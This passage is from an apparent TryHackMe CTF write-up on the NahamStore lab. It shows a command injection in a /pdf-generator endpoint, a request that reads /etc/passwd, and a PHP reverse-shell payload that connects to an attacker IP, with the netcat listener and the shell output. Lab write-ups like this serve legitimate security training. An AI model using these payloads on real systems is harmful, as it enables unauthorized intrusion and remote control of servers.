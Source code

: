 ```
    inet 172.17.0.4/16 brd 172.17.255.255 scope global eth0
       valid_lft forever preferred_lft forever
$ 
```

We're `www-data`!

```
$ cat flag.txt
{Redacted}
```

2. Second RCE flag

**In the IDOR section, we found that the `/pdf-generator` suffers an IDOR vulnerbility, and it's also vulnerable to RCE (Command injection)!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/NahamStore/images/a59.png)

**Burp Suite:**
```
POST /pdf-generator HTTP/1.1
[...]

what=order&id=5
```

**In here, we can also execute arbitrary command by using `$(<cmd_here>)`**

**Proof-of-Concept:**
```
POST /pdf-generator HTTP/1.1
[...]

what=order&id=5$(cat+/etc/passwd)
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/NahamStore/images/a60.png)

**To get a reverse shell, I'll:**

- Setup a `nc` listener:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/NahamStore]
└─# nc -lnvp 443
listening on [any] 443 ...
```

- Send a PHP reverse shell: (Generated from https://www.revshells.com/)

**Payload:**
```
what=order&id=5$(php+-r+'$sock%3dfsockopen("10.18.61.134",443)%3bexec("/bin/bash+<%263+>%263+2>%263")%3b')
```

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/NahamStore]
└─# nc -lnvp 443
listening on [any] 443 ...
connect to [10.18.61.134] from (UNKNOWN) [10.10.46.5] 48502
whoami;hostname;id;ip a
www-data
2431fe29a4b0
uid=33(www-data) gid=33(www-data) groups=33(www-data)
[...]
4: eth0@if5: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:11:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.17.0.2/16 brd 172.17.255.255 scope global eth0
       valid_lft forever preferred_lft forever
```